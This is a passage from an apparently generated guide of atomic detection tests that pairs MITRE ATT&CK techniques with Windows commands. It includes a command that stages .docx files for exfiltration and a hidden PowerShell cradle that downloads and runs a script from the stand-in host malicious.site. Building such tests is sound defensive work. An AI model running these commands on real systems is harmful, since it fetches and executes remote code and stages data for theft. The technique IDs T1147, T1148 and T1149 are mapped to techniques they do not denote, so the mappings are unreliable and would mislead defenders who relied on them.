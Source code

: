### Atomic Test
```cmd
copy C:\Users\Public\Documents\*.docx D:\Staged\\
```

### Tool Used
CMD

### Expected Behavior
- Activity is logged via Sysmon or Windows Event Log
- Indicates a potential instance of staging files for exfiltration on the host

### Detection
- Alerts should be triggered by rules matching file creation or command-line patterns
- Mapped to MITRE ATT&CK: **T1147**


## ✅ T1148 – Beaconing to external command servers

### Description
Simulates beaconing to external command servers to evaluate detection capability for MITRE tactic **Command and Control**.

### ⚠️ Important Note
The following command is for **educational use only** and must be executed in an **isolated lab**. Do not use on production systems.

### Atomic Test
```cmd
powershell.exe -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString(\'http://malicious.site/c2.ps1\')"
```

### Tool Used
CMD

### Expected Behavior
- Activity is logged via Sysmon or Windows Event Log
- Indicates a potential instance of beaconing to external command servers on the host

### Detection
- Alerts should be triggered by rules matching file creation or command-line patterns
- Mapped to MITRE ATT&CK: **T1148**


## ✅ T1149 – Copying data to removable media or network

### Description
Simulates copying data to removable media or network to evaluate detection capability for MITRE tactic **Exfiltration**.
